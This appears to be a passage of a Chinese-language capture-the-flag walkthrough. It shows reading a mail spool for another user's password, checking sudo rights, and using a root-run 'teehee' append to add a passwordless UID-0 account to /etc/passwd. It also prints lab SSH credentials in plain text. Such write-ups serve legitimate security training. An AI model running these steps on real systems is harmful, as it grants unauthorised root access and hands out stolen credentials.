 ssh账号:jim密码:jibril04

![upload successful](https://lnng.top/images/pasted-189.png)

**upload successful**

### [](https://lnng.top/posts/2ea3.html#%E6%8F%90%E7%A4%BA%E6%9C%89%E4%B8%AAmail "提示有个mail")提示有个mail

读取一下信封

```
/var/mail/jim
```

告诉了我们账号密码  

![upload successful](https://lnng.top/images/pasted-190.png)

**upload successful**

```
Password is:  ^xHhA&hvim0y

See ya,
Charles
```

切换一下用户

```
su charles
```

查看能够root执行的命令

```
sudo -l
```

![upload successful](https://lnng.top/images/pasted-191.png)

**upload successful**

  
发有能够以root执行的teehee命令,而teehee的作用是可以向文件中追加内容

### [](https://lnng.top/posts/2ea3.html#%E6%8F%90%E6%9D%83 "提权")提权

#### [](https://lnng.top/posts/2ea3.html#%E5%B0%86%E8%B4%A6%E5%8F%B7%E5%86%99%E5%85%A5-etc-passwd%E4%B8%AD "将账号写入/etc/passwd中")将账号写入/etc/passwd中

密码设置为空

```
echo "admin::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
```
